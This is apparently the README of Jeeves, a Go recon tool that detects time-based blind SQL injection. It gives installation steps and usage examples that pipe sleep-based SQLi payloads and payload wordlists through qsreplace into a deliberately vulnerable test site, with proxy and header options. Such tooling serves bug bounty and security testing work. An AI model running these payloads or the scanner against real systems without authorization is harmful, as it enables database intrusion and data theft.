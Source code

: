 <h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>
<img src="gojayyyy.png">

## - Installation & Requirements:
```
> go install github.com/ferreiraklet/Jeeves@latest

OR

> git clone https://github.com/ferreiraklet/Jeeves.git

> cd Jeeves

> go build jeeves.go

> chmod +x jeeves

> ./jeeves -h
```
<br>


## - Usage & Explanation:
  * In Your recon process, you may find endpoints that can be vulnerable to sql injection,
  
    * Ex: https://redacted.com/index.php?id=1

    <br>
  
    Jeeves reads from stdin:
    
   
    
    `echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves --payload-time time_payload`
    <br>
  
    In --payload-time you must use the time mentioned in payload.
 
    <br>
    
    **You can use a file containing a list of targets as well**:
  
    `cat targets | jeeves --payload-time 5`
  
    <br>
    
 * **You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght**
    <br>
    * Another examples of usage:
  
    
      ```bash
       Usage:
       --payload-time,      The time from payload
       --proxy              Send traffic to a proxy
       -c                   Set Concurrency
       -H, --headers        Custom Headers
       -h                   Show This Help Message
      ```
       
       
  
    Ex 1 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5`
    
    <br>
    
    Ex 2 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves --payload-time 10`
    
    <br>
    
    Ex 3 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://179.67.16.10:8081"`
    
    <br>
    
    Ex 4 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://179.67.16.10:8081" -H "User-Agent: xxxx"`
    
    <br>
    
    You can specify more than one header, OBS: Be careful, the syntax must be exact the same, Ex:
    
    Ex 5 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy -H "Testing: testing;OtherHeader: Value;Other2: Value"`
    
    TIP:
    
    Using with sql payloads wordlist
    `cat sql_wordlist.txt | while read payload;do echo http://testphp.vulnweb.com/artists.php?artist= | qsreplace $payload | jeeves --payload-time 5;done`
    
    
    Warn: Does not follow redirects, If the Status Code is diferent than 200, it returns "Need Manual Analisys"

<br>


## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.
